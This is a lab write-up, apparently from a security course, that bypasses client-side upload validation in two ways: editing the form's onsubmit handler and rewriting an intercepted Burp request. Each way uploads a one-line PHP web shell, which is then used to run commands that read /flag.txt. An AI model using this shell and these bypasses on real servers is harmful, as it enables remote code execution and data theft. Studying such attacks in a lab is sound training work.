## Exercises

### Question 1 — Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)

Built the same PHP web shell used in earlier sections:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo '<?php system($_GET["cmd"]);?>' > shell.php
```

#### Method 1: Disabling Front-End Validation

Opened the Page Inspector and, from the DOM, found the line pointing at the function responsible for extension validation. 



Typed the function's name, `validate`, into the console, which linked through to its definition under **Debug → Source → script.js**



```javascript
function validate() {
  var file = $("#uploadFile")[0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
    return false;
  } else {
    return true;
  }
}
```

Confirmed this was the relevant function, so the form's `onsubmit` attribute needed editing rather than this function itself:

```html
onsubmit="if(validate()){upload()}"
```

`upload()` only runs when `validate()` returns `true`, so removing the conditional lets `upload()` run unconditionally:

```html
onsubmit="upload()"
```



Since this edit is client-side only, it's sufficient to bypass the validation for this one upload.

Uploaded `shell.php`, and confirmed the upload in the DOM, which showed:

```html

```



Visited the shell, then passed a command through it:

```txt
http://154.57.164.74:34289/profile_images/shell.php?cmd=cat+/flag.txt
```



**Answer:** `—REDACTED—`

#### Method 2: Intercepting and Modifying the Upload Request

Reset the target to a fresh instance at `154.57.164.79:44869`, then enabled **FoxyProxy** and turned on **Intercept** in Burp Suite.





Uploaded a valid image through the form, which Burp intercepted:



```http
POST /upload.php HTTP/1.1
Host: 154.57.164.79:44869
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: */*
Accept-Language: en-GB,ja;q=0.9
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary54d73f13de3b50486f4b7a76e394a0af
Content-Length: 34494
Origin: http://154.57.164.79:44869
Sec-GPC: 1
Connection: keep-alive
Referer: http://154.57.164.79:44869/
Priority: u=0

------geckoformboundary54d73f13de3b50486f4b7a76e394a0af
Content-Disposition: form-data; name="uploadFile"; filename="images.jpeg"
Content-Type: image/jpeg

ÿØÿà—SNIP—
```

Edited the intercepted request's filename and body to carry the PHP web shell instead of the image:

```http
------geckoformboundarydd5e64426a054965273ff25b4f745293
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
------geckoformboundarydd5e64426a054965273ff25b4f745293--
```



Forwarded the modified request, which returned:

```http
HTTP/1.1 200 OK
Date: Wed, 04 Nov 2026 16:03:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 26
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

File successfully uploaded
```

Turned off Intercept and FoxyProxy, and confirmed the upload in the DOM.



Visited the uploaded shell and confirmed code execution with a test command:

```txt
http://154.57.164.79:44869/profile_images/shell.php?cmd=echo+pwned!
```



Confirmed: the request-modification method achieves the same code execution as the front-end bypass, reaching `/flag.txt` the same way via `?cmd=cat+/flag.txt`.